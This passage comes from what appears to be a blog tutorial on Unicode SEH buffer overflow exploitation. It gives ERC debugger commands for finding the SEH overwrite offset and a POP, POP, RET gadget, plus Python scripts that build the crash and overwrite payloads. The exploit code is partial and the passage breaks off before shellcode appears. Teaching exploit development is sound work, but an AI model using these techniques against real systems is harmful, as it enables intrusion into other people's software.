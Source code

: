 **Command:**

```
ERC --FindNRP -Unicode
```

<figure><img src="https://www.coalfire.com/medialib/assets/images/Blog%20Images/2020/BoED4/image009.png" alt=""><figcaption><p>Output of ERC –FindNRP -Unicode</p></figcaption></figure>

The output of the FindNRP command above displays that the SEH register is overwritten after 1019 characters in the malicious payload. As such, we will now ensure that our tool output is correct by overwriting our SEH register with Bs and Cs. First, we will need to hit the restart button in order to restart the process and prepare it for another malicious payload. The following exploit code should produce an overwrite of Bs and Cs over the SEH register: &#x20;

```
f = open("crash-3.txt", "wb")

buf = b"" 
buf += b"\x41" * 1019
buf += b"\x42" * 2 
buf += b"\x43" * 2 
buf += b"\x44" * (5000 - len(buf))

f.write(buf)
f.close()
```

<figure><img src="https://www.coalfire.com/medialib/assets/images/Blog%20Images/2020/BoED4/image011.png" alt=""><figcaption><p>SEH Overwrite</p></figcaption></figure>

\
As you can see, the SEH register is overwritten with Bs and Cs as expected. Now, to return us back to our exploit code, we will need to find a POP, POP, RET instruction. For a full rundown of how an SEH overflow works, read the previous article in this series. In order to find a suitable pointer to a POP, POP, RET instruction set, we will run the following command. As the character encoding is set as Unicode only, Unicode compatible results will be returned.

**Command:**

```
ERC --SEH -ASLR -SafeSEH -Rebase -OSDLL -NXCompat
```

<figure><img src="https://www.coalfire.com/medialib/assets/images/Blog%20Images/2020/BoED4/image012.png" alt=""><figcaption><p>Output of the ERC --SEH Command</p></figcaption></figure>

\
As you can see, there are a number of options to choose from for POP, POP, RET instructions. Normally when carrying out an SEH overflow, we would execute a POP, POP, RET instruction set and then jump over them. However, this is not possible with Unicode due to the additional null bytes we must deal with. Therefore the address of the POP, POP, RET instruction must not cause the program to crash as we will need to step through it after executing the POP, POP, RET instructions.

Because of that, we decided to go with 004800b3. We can walk through these instructions without crashing the application. At this point, our exploit code should now look something like this:

```

1.	f = open("crash-4.txt", "wb")  
2.	  
3.	buf = b""  
4.	buf += b"\x41" * 1021      #Added 2 bytes to cover nSeh. We will replace these later with Unicode NOPs
5.	buf += b"\xB3\x48"         #0x004800b3 | pop ecx, pop ebp, ret
6.	buf += b"\x44" * (5000 - len(buf))  
7.	  
8.	f.write(buf)  
9.	f.close()
  
```
